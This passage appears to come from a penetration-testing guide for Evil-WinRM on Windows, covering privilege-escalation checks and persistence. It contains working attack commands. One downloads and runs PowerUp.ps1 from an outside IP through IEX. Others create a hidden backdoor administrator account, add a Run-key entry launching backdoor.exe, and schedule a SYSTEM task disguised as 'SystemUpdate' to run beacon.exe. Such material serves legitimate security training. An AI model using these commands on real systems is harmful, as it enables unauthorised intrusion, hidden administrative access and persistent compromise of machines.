 **WinPEAS will find**:
- Unquoted service paths
- AlwaysInstallElevated
- Stored credentials
- Weak permissions
- Much more

#### Using PowerUp

```powershell
# Import PowerUp module
*Evil-WinRM* PS C:\Temp> IEX(New-Object Net.WebClient).downloadString('http://192.168.148.99:8000/PowerUp.ps1')

# Run all checks
*Evil-WinRM* PS C:\Temp> Invoke-AllChecks
```

### Persistence Techniques

#### Creating Backdoor User

```powershell
# Create hidden admin user
*Evil-WinRM* PS C:\> net user hacker Hacker123! /add
*Evil-WinRM* PS C:\> net localgroup administrators hacker /add

# Hide from login screen
*Evil-WinRM* PS C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v hacker /t REG_DWORD /d 0 /f
```

#### Registry Persistence

```powershell
# Add Run key persistence
*Evil-WinRM* PS C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Temp\backdoor.exe" /f
```

#### Scheduled Task Persistence

```powershell
# Create persistent scheduled task
*Evil-WinRM* PS C:\> schtasks /create /sc minute /mo 5 /tn "SystemUpdate" /tr "C:\Temp\beacon.exe" /ru SYSTEM
```

---

## Troubleshooting Guide

### Common Issues and Solutions
